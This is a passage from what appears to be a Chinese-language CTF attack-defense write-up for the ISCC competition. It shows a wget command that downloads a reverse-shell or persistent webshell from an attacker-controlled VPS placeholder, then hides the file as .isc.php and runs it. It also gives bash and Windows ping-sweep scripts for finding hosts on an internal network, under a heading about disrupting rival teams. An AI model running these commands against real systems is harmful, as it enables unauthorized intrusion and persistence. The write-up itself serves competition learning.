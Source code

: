 由于题目限制不严格，所以可以直接用wget下载反弹shell程序或者不死马：

```
wget http://VpsIP/iscc.txt
mv iscc.txt .isc.php
chmod +x .isc.php
php .isc.php &amp;
```



## 如何搅屎

由于本次比赛并没有真正去搅屎，下面讨论的方法大多是整理他人的文章或者是在本机测试过的，所以只能算是yiyin搅屎了。

### <a class="reference-link" name="%E4%B8%BB%E6%9C%BA%E5%8F%91%E7%8E%B0"></a>主机发现

linux环境

用shell脚本扫描内网，程序如下：

```
#!/bin/bash
# 用法： ./scan.sh 192.168.199 1 254

network=$1
time=$(date +%H%M%S)

for i in $(seq $2 $3)
do
    ping -c 1 -w 2 $network.$i &gt; /dev/null
    if [ $? -eq 0 ]; then
          arp $network.$i | grep ":" | awk '`{`print $1,$3`}`' &gt;&gt; $time.log
          echo "host $network.$i is up"
   else
          echo "host $network.$i is down"
   fi
done
```

或者使用

```
for ((i=1; i&lt;256; i++));
do
echo "Checking...[$`{`i`}`]"
ping -c 1 192.168.199.$`{`i`}` | grep ttl
done
```

windows环境

主机发现程序如下：

```
for /l %i in (1,1,255) do 
@ping 192.168.1.%i -w 1 -n 1 | find /i "ttl"
```
